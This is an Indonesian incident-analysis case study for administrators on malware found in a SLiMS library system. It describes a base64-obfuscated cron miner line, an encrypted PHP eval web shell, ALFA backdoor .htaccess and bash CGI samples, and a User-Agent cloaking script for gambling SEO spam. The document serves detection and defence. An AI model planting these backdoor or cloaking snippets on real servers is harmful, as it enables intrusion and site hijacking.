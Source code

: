 # 🔬 Studi Kasus 1: Ciri dan Cara Kerja Malware pada SLiMS Bulian

Dokumen ini menganalisis anatomi serangan siber berlapis pada instalasi SLiMS. Studi kasus ini membedah tiga jenis malware berbeda yang ditemukan, cara kerjanya, dan jejak yang ditinggalkan penyerang. Tujuannya adalah untuk memberikan pemahaman mendalam agar administrator sistem dapat mengenali tanda-tanda serupa.

## 🕵️ Profil Penyerang dan Vektor Serangan

* **🆔 Atribusi Penyerang**: Aktivitas serangan diidentifikasi berasal dari grup yang menamakan dirinya "Team Anon Force", terdeteksi melalui signature `User-Agent` unik yang mereka gunakan saat memindai server.
* **🛠️ Taktik**: Penyerang menggunakan alat pemindai otomatis untuk mencari kelemahan umum pada aplikasi web, tidak hanya SLiMS tetapi juga CMS lain seperti WordPress.
* **🔓 Vektor Serangan Utama**: Celah keamanan yang dieksploitasi bukanlah dari SLiMS itu sendiri, melainkan dari konfigurasi server yang lemah, terutama:
    * **Izin File yang Lemah**: Pengguna web server (`www-data`) memiliki hak tulis yang berlebihan, memungkinkan penyerang untuk membuat dan memodifikasi file di berbagai direktori.
    * **Kelemahan Unggah File**: Adanya kemungkinan celah pada komponen atau direktori yang tidak aman sehingga memungkinkan penyerang mengunggah skrip berbahaya.

## ⛏️ Ancaman #1: Malware Penambang Kripto (Persistensi Jangka Panjang)

Ini adalah infeksi paling lama dan paling tersembunyi, telah aktif selama lebih dari dua tahun tanpa terdeteksi.

### 👀 Ciri-ciri
* Penggunaan CPU server yang tinggi dan tidak wajar.
* Ditemukannya file binary mencurigakan berukuran besar (~2.8MB) di direktori tersembunyi.
* Adanya tugas terjadwal (*cron job*) yang tidak dikenal pada pengguna sistem `www-data`.

### ⚙️ Cara Kerja
1.  **⏰ Persistensi melalui Cron Job**: Malware ini memastikan dirinya tetap aktif dengan menambahkan sebuah perintah pada `cron tab` milik user `www-data`. Perintah ini diatur untuk berjalan secara otomatis setiap jam.
2.  **🎭 Obfuscation (Penyamaran)**: Perintah di dalam `cron` disamarkan menggunakan `base64` agar tidak mudah dibaca oleh administrator sistem.
3.  **👻 Eksekusi Tersembunyi**: Perintah `cron` tersebut akan mendekode dan menjalankan file binary malware.
4.  **🥸 Menyamarkan Proses**: Setelah berjalan, proses malware ini menyamarkan dirinya sebagai proses kernel yang terlihat normal, seperti `[raid5wq]`, untuk menghindari deteksi saat administrator memeriksa proses yang aktif.

**Contoh Skrip di Crontab (`www-data`)**
```bash
# PERINGATAN: INI ADALAH CONTOH KODE BERBAHAYA
# Perintah ini mendekode string base64 yang panjang (dipotong di sini) 
# lalu menjalankannya melalui bash.
0 * * * * { echo L3Vz...udWxsAo=|base64 -d|bash;} 2>/dev/null #defunct-kernel
```

## 🚪 Ancaman #2: Backdoor & Web Shell (Akses Penuh ke Server)

Penyerang menanamkan setidaknya dua jenis backdoor berbeda untuk memastikan mereka selalu memiliki akses ke server.

### 📄 Jenis A: Web Shell PHP Terenkripsi (Contoh: `betawinesec.php`)

Ini adalah backdoor dalam satu file PHP yang sangat sulit dianalisis karena teknik penyamaran berlapis.

* **Ciri-ciri**: Sebuah file PHP dengan ukuran besar (~1.5MB) yang isinya tampak seperti teks acak.
* **Cara Kerja (Teknik Obfuscation 🪆)**:
    * **Lapisan Enkripsi**: Kode inti dienkripsi menggunakan metode enkripsi kuat seperti AES-256-CBC.
    * **Lapisan Kompresi**: Data terenkripsi tersebut kemudian dikompres menggunakan `gzuncompress` untuk membuatnya lebih kecil.
    * **Lapisan Eksekusi**: Fungsi `eval()` digunakan sebagai pemicu akhir untuk mendekripsi, mendekompresi, dan kemudian menjalankan kode berbahaya yang tersembunyi. Alurnya adalah: Teks Acak ➡️ didekripsi ➡️ didekompresi ➡️ Kode PHP Jahat ➡️ dieksekusi ⚡️.

**Contoh Konseptual Skrip Web Shell Terenkripsi**
```php
<?php
// PERINGATAN: INI ADALAH CONTOH KONSEPTUAL DARI KODE BERBAHAYA

// Layer 3: Payload yang dienkripsi dan dikompres (string acak)
$encrypted_payload = '... string panjang berisi kode terenkripsi ...';
$key = 'kunci_rahasia_penyerang';
$iv = '... initialization vector ...';

// Layer 2: Dekripsi dan Dekompresi
$decrypted_payload = openssl_decrypt($encrypted_payload, 'aes-256-cbc', $key, 0, $iv);
$uncompressed_code = gzuncompress($decrypted_payload);

// Layer 1: Eksekusi kode berbahaya yang sudah bersih
eval($uncompressed_code); 
?>
```

### 🧰 Jenis B: ALFA Backdoor Suite

Ini adalah kumpulan skrip yang lebih canggih, memberikan penyerang fleksibilitas untuk menjalankan perintah menggunakan berbagai bahasa pemrograman.

* **Ciri-ciri**:
    * Ditemukannya direktori aneh (misal: `ALFA_DATA`) di dalam direktori SLiMS yang seharusnya tidak dapat dieksekusi, seringkali disamarkan di dalam direktori `files` atau `repository`.
    * Berisi beberapa file skrip seperti `py.alfa` (Python), `bash.alfa` (Bash), dan `perl.alfa` (Perl).
    * Terdapat modifikasi pada file `.htaccess` yang menyertakan "tanda tangan" dari pembuatnya, seperti "Sole Sad & Invisible".
* **Cara Kerja**: Penyerang memodifikasi `.htaccess` untuk mengaktifkan `ExecCGI` dan menambahkan `AddHandler` untuk ekstensi `.alfa`. Ini memerintahkan server untuk mengeksekusi file-file tersebut sebagai skrip.

**Contoh Skrip `.htaccess`**
```apache
# PERINGATAN: INI ADALAH CONTOH KONFIGURASI BERBAHAYA
# Signature: Sole Sad & Invisible
Options +ExecCGI
AddHandler cgi-script .alfa
```

**Contoh Konseptual Skrip `bash.alfa`**
```bash
#!/bin/bash
# PERINGATAN: INI ADALAH CONTOH KONSEPTUAL DARI KODE BERBAHAYA

echo "Content-Type: text/plain"
echo ""

# Membaca data yang dikirim oleh penyerang melalui POST
read POST_STRING

# Mendekode perintah dari base64 dan menjalankannya
COMMAND=$(echo "$POST_STRING" | base64 -d)
eval "$COMMAND"
```

## 🎣 Ancaman #3: Parasite SEO & Cloaking (Manipulasi Mesin Pencari)

Ini adalah tujuan akhir dari serangan setelah penyerang mendapatkan akses, yaitu memanfaatkan reputasi domain untuk mempromosikan konten spam.

### 👀 Ciri-ciri
* File `index.php` di direktori utama dimodifikasi, sedangkan file `index.php` di semua subfolder dihapus.
* Terdapat **file PHP baru** (misalnya, `home.php`) yang berfungsi sebagai halaman spam, berisi kode HTML kompleks yang dioptimalkan untuk SEO.
* Saat dicek di Google, situs Anda muncul untuk kata kunci judi, namun saat dikunjungi langsung, tampilannya normal.

### ⚙️ Cara Kerja
1.  **🎭 Cloaking**: Skrip `index.php` yang telah dimodifikasi berisi logika untuk mendeteksi pengunjung. Ia memeriksa `User-Agent` dari setiap permintaan yang masuk.
2.  **📈 Parasite SEO**: File `home.php` sengaja dirancang untuk mendapat peringkat tinggi di Google. File ini diisi dengan kata kunci, tautan keluar, dan metadata *Structured Data* (JSON-LD) yang relevan dengan judi online. Dengan "membonceng" pada domain Anda yang mungkin memiliki reputasi baik, halaman spam ini bisa dengan cepat muncul di halaman pertama hasil pencarian.

**Contoh Konseptual Skrip Cloaking di `index.php`**
```php
<?php
// PERINGATAN: INI ADALAH CONTOH KONSEPTUAL DARI KODE BERBAHAYA

$user_agent = $_SERVER['HTTP_USER_AGENT'];
$bot_list = array("Googlebot", "Bingbot", "YandexBot");
$is_bot = false;

foreach ($bot_list as $bot) {
    if (stripos($user_agent, $bot) !== false) {
        $is_bot = true;
        break;
    }
}

if ($is_bot) {
    // 🤖 Jika bot, tampilkan halaman spam SEO
    include 'home.php'; 
} else {
    // 👤 Jika pengunjung biasa, tampilkan konten SLiMS yang asli
    include 'old.php'; 
}
?>
```
